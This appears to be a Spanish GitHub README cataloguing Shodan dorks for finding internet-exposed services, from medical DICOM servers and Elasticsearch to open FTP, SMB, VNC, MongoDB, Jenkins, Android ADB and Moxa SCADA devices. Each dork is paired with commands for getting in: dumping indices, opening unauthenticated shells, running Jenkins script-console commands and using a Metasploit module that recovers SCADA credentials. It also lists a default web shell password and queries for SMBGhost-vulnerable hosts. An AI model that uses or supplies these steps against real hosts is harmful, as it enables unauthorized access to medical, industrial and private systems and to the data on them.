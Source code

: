 # Dorks Shodan 2023

Recopilación de Querys de shodan con scripts personalizados :)

# DICOM 
El estándar DICOM (Digital Imaging and Communications in Medicine) es un estándar utilizado en la industria médica para la gestión, almacenamiento y transmisión de imágenes médicas, como radiografías, tomografías computarizadas (TC), imágenes de resonancia magnética (IRM), entre otras.

```sh
"DICOM Server Response" port:104
```
```sh
python3 Dicom.py
```

![image](https://github.com/HernanRodriguez1/Exploits-Shodan/assets/66162160/29f923e0-fbde-4526-a199-fbf71cb5319f)

![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/15e42afa-c7ba-44e0-a2fd-1c8dc6a829d5)


# Elasticsearch
Elasticsearch es un motor de búsqueda y análisis distribuido, de código abierto, basado en Lucene. Se utiliza para indexar, buscar y analizar grandes volúmenes de datos en tiempo real. Está diseñado para manejar datos no estructurados o semiestructurados y es especialmente útil para casos de uso en los que se requiere búsqueda y análisis de texto, logística, monitoreo y análisis de registros, y más

```sh
port:"9200" elastic: "Total Size:"
```
```sh
curl -X GET "http://192.x.x.153:9200/_cat/indices?v"
curl -X GET "http://192.x.x.153:9200/.monitoring-beats-7-2023.08.30"
curl -X GET "http://192.x.x.153:9200/_search?pretty=true"
```

```sh
python3 elastic.py -t 192.x.x.153
```
![image](https://github.com/HernanRodriguez1/Exploits-Shodan/assets/66162160/25dadba2-91d2-4bc6-9a91-6c238120d557)


## Access FTP Anonymous
El acceso FTP anónimo es una forma de conectarse a un servidor FTP sin proporcionar credenciales de autenticación específicas.

```sh
"220" "230 Login successful." port:21
230 'anonymous@' login ok 
"Anonymous+access+allowed" port:"21"
```

```sh
shodan search :"220" "230 Login successful." port:21 --fields ip_str --separator " " | awk '{print $1}' | cat > ips.txt
```
```sh
python3 ftp.py -l ips.txt
```
![image](https://github.com/HernanRodriguez1/Exploits-Shodan/assets/66162160/59945aef-9d89-4c2d-bbc6-a876ad1ed68d)


# Authentication Disabled SMB
La autenticación SMB (Server Message Block) sin credenciales, también conocida como acceso SMB anónimo, permite a los usuarios acceder a recursos compartidos en una red sin proporcionar nombres de usuario ni contraseñas. Esto puede ser útil para acceder a carpetas compartidas que se han configurado para permitir el acceso anónimo.

```sh
"Authentication: disabled" port:445 product:"Samba" 
```
```sh
smbclient -L //200.x.x.29/ -N  
smbclient //200.x.x.29/info
```
![image](https://github.com/HernanRodriguez1/Exploits-Shodan/assets/66162160/da427f4b-0f7b-4f2b-9b0e-326da7e78420)

## Access authentication disabled VNC
Esto significa que el servidor VNC está configurado para permitir conexiones sin requerir autenticación.

```sh
"authentication disabled" port:5900,5901
```
```sh
vncviewer -passwd none 91.x.x.238
```
![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/9e610141-1ccf-4388-92c5-c824704ca9c0)


## Access authentication disabled MongoDB
Esto significa que el servidor NoSQL MongoDB está configurado para permitir conexiones sin requerir autenticación.


```sh
"MongoDB Server Information" port:27017 -authentication
"Set-Cookie: mongo-express=" "200 OK"
```
```sh
mongo --host 139.x.x.5
```
![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/69a9b077-8f19-4c3b-8032-0b6387c93c8b)

## Access Jenkins
Se puede visualizar componentes del servicio Jenkins, ejecutar scripts, etc.

```sh
http.component:"jenkins"
title:"Dashboard [Jenkins]"
html:"Dashboard Jenkins"
```
```sh
add /script 
print "uname -a".execute().text
```
![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/96d36829-5013-4bdb-b543-f095a0835dc3)


## Access devices ADB
Es una aplicación de terminal que le permite conectarse al servicio ADB shell de otros dispositivos Android a través de la red.

```sh
shodan search :Android Debug Bridge port:5555 "Name:" --fields ip_str --separator " " | awk '{print $1}' | cat > ips.txt 
 ```
```sh
python3 adb.py   
```
![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/da53ed42-de05-4842-9662-5ee57eaf6269)

```sh
adb devices
```
![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/9e05b583-b684-4b27-b42d-c10b5312d788)

```sh
adb -s 59.x.x.112:5555 shell
```
![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/e2bf07c6-157a-4fac-b4e5-f317e6ced25f)

## Access devices SCADA Moxa 
Sistema SCADA que utiliza productos de la marca Moxa para establecer la conectividad y la comunicación con los dispositivos industriales que están siendo monitoreados y controlados en una infraestructura crítica o proceso industrial.

```sh
"Moxa Nport Device" Status: Authentication enabled port:"4800"
"Moxa Nport Device" Status: Authentication disabled port:"4800"
shodan search --separator , --fields ip_str,port,data "Moxa Nport" | awk '{print $1,$2,$3}' FS=":" | tr '\\', ' ' | awk '{print $1,$7,$8}' | column -t | ccze -A
```

```sh
use auxiliary/admin/scada/moxa_credentials_recovery
set FUNCTION CREDS
set rport 4800
set rhosts 212.x.x.14
run
```
![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/54060261-80cc-4893-b134-b3fe2e0bc62c)


```sh
telnet 212.x.x.14
```
![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/5f79db0b-aff5-4790-8c9a-59f0b84c59d4)

## Exploit RCE CVE-2020-0796
La vulnerabilidad CVE-2020-0796 se refiere a una vulnerabilidad de ejecución de código remoto (RCE, por sus siglas en inglés) que afecta al protocolo de compartición de archivos SMBv3 (Server Message Block version 3). SMB es un protocolo utilizado para compartir archivos, impresoras y otros recursos en redes de computadoras. La versión 3 (SMBv3) es una versión moderna de este protocolo utilizada en sistemas operativos Windows.

Esta vulnerabilidad se conoció coloquialmente como "SMBGhost" o "CoronaBlue" y fue anunciada en marzo de 2020. 

```sh
vuln:CVE-2020-0796
country:pe port:445
```
![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/9719b22e-f451-41ed-8a69-c90917116eee)

![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/5067e96e-1031-413b-87ed-447568d5102b)

## Electronic measure

```sh
"Server: EIG Embedded Web Server" "200 Document follows"
```
![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/e3960f20-02a7-4160-b0f5-1109b6a20995)


## Search Web shell 

```sh
html:"wso.php"
```
![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/de293e71-053d-433a-a7a3-7f3dd9dc9d17)

webshell as default fa769dac7a0a94ee47d8ebe021eaba9e has a match password ghost287

![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/31ab5b5e-97f8-4512-b08a-76981529067a)


## OS Windows Obsolete
Tener sistemas Windows obsoletos y sin soporte puede conllevar una serie de peligros y riesgos significativos para la seguridad, la estabilidad y la eficiencia de tus sistemas y datos.


```sh
os:"Windows 5.0" – Windows 2000; support end 2010.
os:"Windows 5.1" – Windows XP; support end 2014.
os:"Windows 2003" – Windows Server 2003; support end 2015.
os:"Windows Vista"– Windows Vista; support end 2017.
os:"Windows 2008" – Windows Server 2008; support end 2020.
os:"Windows 7" – Windows 7; support end 2020.
os:"Windows 8" – Windows 8; support end 2016.
os:"Windows 2011" – Windows Home Server 2011; support end 2016.
os:"Windows 8.1" – Windows 8.1; support end 2018.
os:"Windows 2012" – Windows Server 2012; support end 2018.
```



